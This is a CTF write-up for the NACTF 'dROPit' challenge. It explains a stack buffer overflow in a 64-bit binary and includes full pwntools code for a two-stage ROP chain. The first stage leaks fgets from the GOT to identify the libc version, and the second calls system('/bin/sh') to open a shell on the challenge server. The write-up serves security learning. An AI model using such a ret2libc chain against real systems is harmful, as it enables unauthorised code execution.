

## NACTF: dROPit [pwn]


#### This was a ROP challenge as hinted by the capitalized letters in the challenge name. Simply, we have a buffer overflow vulnerability again to which we will need to leak libc addresses in order to determine the libc version used and pop a shell. I have done a lot of similar writeups to this one which can be found on the website, so I won't go into detail with this (only a rundown of what I did).

## Controlling RIP, ROPgadgets
#### To find which offset I can use to control the instruction pointer, I played around the binary with pwndbg. After confirming the offset at which we can control it, the next plan is to find ROP gadgets that we will use for the leak.
```
$ ROPgadgets --binary ./dropit > gadgets.txt
```
#### Redirect the output into a text file for better view. The gadgets we are interested in are `pop rdi` (for placing arguments into the rdi register) and `ret` (for stack alignment). For this challenge, I decided to leak fgets and puts, provided the leaked values into `libc.rip` (a more updated version compared to libc.blukat.me imo, since the latter didn't find the libc version for the input I provided). Code below is the stage 1 exploit.
```python
from pwn import *

#:
p = remote('challenges.ctfd.io', 30261)
#p = process('./dropit')
binary = ELF('dropit', checksec = False)

#:
ret = 0x40101a
pop_rdi = 0x401203

exploit = cyclic(56)
exploit += p64(ret)
exploit += p64(pop_rdi)
exploit += p64(binary.got['fgets'])
exploit += p64(binary.symbols['puts'])
exploit += p64(binary.symbols['main'])

print(p.recvuntil('?\n'))
p.sendline(exploit)
leak = int(hex(u64(p.recvuntil('\n').ljust(8, '\x00')))[3:], 16)
print('[*] fgets leak: {}'.format(hex(leak)))
```

## Popping a shell
#### We have identified the libc version that the remote server is running, next step is to download a copy of the libc to use for our second stage. We simply calculate the libc base by subtracting the value leaked from the server with the offset of fgets in the libc. Afterwhich, we can simply perform a call to system providing /bin/sh as its argument. The call to exit isn't really necessary, just a force of habit.
```python
#: Stage 2
libc = ELF('libc6_2.32-0ubuntu3_amd64.so', checksec = False)
libc.address = leak - libc.symbols['fgets']
print('[*] libc base: {}'.format(hex(libc.address)))

exploit = cyclic(56)
exploit += p64(pop_rdi)
exploit += p64(libc.search('/bin/sh').next())
exploit += p64(libc.symbols['system'])
exploit += p64(libc.symbols['exit'])

p.sendline(exploit)
p.interactive()
```

